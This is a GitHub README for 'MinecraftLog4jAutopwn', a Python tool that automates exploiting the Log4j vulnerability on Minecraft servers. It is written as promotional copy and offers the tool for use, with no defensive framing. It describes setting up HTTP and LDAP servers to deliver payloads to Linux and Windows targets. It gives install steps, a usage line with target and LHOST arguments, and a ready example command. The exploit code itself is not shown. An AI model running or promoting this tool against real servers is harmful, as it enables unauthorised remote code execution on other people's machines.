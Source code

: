 ![image](https://github.com/MAWK0235/MinecraftLog4jAutoPwn/assets/90433993/8e88e5d8-9000-4e56-8c51-4bfb4bb941c6)

# MinecraftLog4jAutopwn: Automate Minecraft Server Exploitation with Log4j

Are you tired of manually exploiting Minecraft servers using Log4j vulnerabilities? Say no more! Introducing MinecraftLog4jAutopwn – your ultimate tool for automating the exploitation process, saving you time and effort. With MinecraftLog4jAutopwn, effortlessly exploit Minecraft servers with Log4j vulnerabilities and gain access efficiently!

note: you might need to change the java compiler version if the server was compiled with a different version then my example

## Key Features

- **Automated Exploitation**: MinecraftLog4jAutopwn automates the entire process of exploiting Minecraft servers with Log4j vulnerabilities, streamlining your workflow and saving valuable time.

- **HTTP and LDAP Server Setup**: Automatically sets up HTTP and LDAP servers for delivering payloads to the target Minecraft server.

- **Payload Injection**: Inject payloads into Minecraft servers seamlessly, with support for both Linux and Windows targets.

- **Flexible Authentication**: Support for authenticating with Minecraft servers using usernames and passwords.

## Installation

```bash
git clone https://github.com/yourusername/MinecraftLog4jAutopwn.git

```

## Usage

```bash
python MinecraftLog4jAutopwn.py --target <target_IP> --username <minecraft_username> --password <minecraft_password> --LHOST <your_IP>
```

## Command Line Arguments

- `--target`: Specify the IP address of the target Minecraft server.
- `--username`: Provide the username for authenticating with the Minecraft server.
- `--password`: Supply the password for authenticating with the Minecraft server.
- `--LHOST`: Specify the IP address of your machine where payloads will be delivered.

## Examples

```bash
# Exploit a Minecraft server with Log4j vulnerability
python MinecraftLog4jAutopwn.py --target 192.168.1.1 --username user --password pass --LHOST 10.0.0.1
```

## Response Codes

- **Success**: Successfully exploited the Minecraft server.
- **Authentication Failed**: Failed to authenticate with the Minecraft server.
- **Connection Error**: Couldn't connect to the Minecraft server.

![MinecraftLog4jAutopwn](minecraft_log4j_autopwn_image.png)

*Note: Replace `yourusername` in the installation command with your GitHub username.*
